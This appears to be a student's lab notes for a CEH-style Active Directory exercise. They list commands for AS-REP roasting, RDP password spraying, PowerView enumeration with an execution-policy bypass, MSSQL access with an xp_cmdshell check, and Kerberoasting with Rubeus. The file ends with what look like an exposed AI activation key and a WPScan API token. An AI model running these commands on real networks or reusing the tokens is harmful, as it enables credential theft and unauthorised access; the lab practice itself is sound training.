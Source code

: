 ##no-auth in Kerberos
python3 GetNPUsers.py CEH.com/ -no-pass -usersfile /root/ADtools/users.txt -dc-ip 10.10.1.22.
##password spraying
cme rdp 10.10.1.0/24 -u /root/ADtools/users.txt -p "cupcake"


##PowerView
Powershell 
Powershell -EP Bypass
Import-Module .\Powerview.ps1

##userful commands
Get-NPComputer
Get-NetGroup
Get-NetUser
Get-NetOU - Lists all organizational units (OUs) in the domain.
Get-NetSession - Lists active sessions on the domain.
Get-NetLoggedon - Lists users currently logged on to machines.
Get-NetProcess - Lists processes running on domain machines.
Get-NetService - Lists services on domain machines.
Get-NetDomainTrust - Lists domain trust relationships.
Get-ObjectACL - Retrieves ACLs for a specified object.
Find-InterestingDomainAcl - Finds interesting ACLs in the domain.
Get-NetSPN - Lists service principal names (SPNs) in the domain.
Invoke-ShareFinder - Finds shared folders in the domain.
Invoke-UserHunter - Finds where domain admins are logged in.
Invoke-CheckLocalAdminAccess - Checks if the current user has local admin access on specified machines.

### we find that SQL_srv has higher privileges

### Performing Attack on MS-SQL service ( port 1433)
xp_cmdshell is a SQL server stored procedure enabling command shell execution


###mssqlclient.py syntax
python3 /root/impacket/examples/mssqlclient.py CEH.com/SQL_srv:<password>@10.10.1.30 -port 1433

SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name='xp_cmdshell';, returning a value of 1, indicating that xp_cmdshell is enabled on the server.

##rubeus.exe
Rubeus.exe kerberoas /outfile:hash.txt



## ai activation key and wpscan api-token

AI 22c83d6b6e5a4863b6998a625906c671
WPSCAn API token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads

